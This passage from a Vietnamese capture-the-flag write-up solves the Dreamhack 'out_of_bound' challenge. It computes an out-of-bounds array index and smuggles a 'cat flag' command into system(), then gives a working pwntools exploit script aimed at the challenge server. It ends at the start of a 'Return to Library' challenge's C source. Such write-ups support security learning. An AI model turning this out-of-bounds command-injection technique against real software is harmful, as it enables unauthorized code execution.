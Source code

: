     "ls",
    "id",
    "ps",
    "file ./oob"`
- Nhưng các lệnh này không giúp ích gì cho ta vì ta cần là `cat flag`
- Theo tìm hiểu thì bài này thuộc dạng `oob` là ta cố gắng truy cập phần tử ngoài phạm vi của mảng
- Ta tìm cách đưa `cat flag` vào và gọi `system(command[idx])` đến đó
- Ta đưa `cat flag` vào biến `name`
- Debug để xem đưa vào đâu trong bộ nhớ
![image](https://hackmd.io/_uploads/rkgR5xlKA.png)
- Dữ liệu sẽ đưa vào địa chỉ `0x804a0ac` là địa chỉ của `name`
- Tìm địa chỉ của `command` và tính ofset để tìm `idx` cần để gọi đến `cat flag`
![image](https://hackmd.io/_uploads/Hku9sxltC.png)
> `0x804a060 - 0x804a0ac = 76`
- Vì là kiến trúc 32 bit nên mỗi con trỏ là 4 byte nên ta chia 4 đề tìm được chỉ số `76/4 = 19`
- Tiếp theo lần nhập `idx` ta nhập `19`
- Nhưng không đúng vì `system` chỉ nhận tham số chỉ là `cat `
 ![image](https://hackmd.io/_uploads/SkXohglF0.png)
- Ta cần đưa tham số là địa chỉ chứa chuỗi `cat flag` để `system` hoạt động đúng
- Nên ta cần đưa địa chỉ chứa `cat flag` sau đó mới tới chuỗi nên chuỗi sẽ nằm ở `0x804a0ac + 4 = 0x804a0b0`
## Script
```python=
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./out_of_bound',checksec=False)

#p = process(exe.path)
p = remote('host1.dreamhack.games',13638)

payload = p32(0x804a0b0)
payload += b'cat flag'

p.sendafter(b'name: ', payload)

#input()

p.sendlineafter(b'want?: ',b'19')

p.interactive()
```
# [Return to Library](https://dreamhack.io/wargame/challenges/353)
## Source code
```c 
#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
```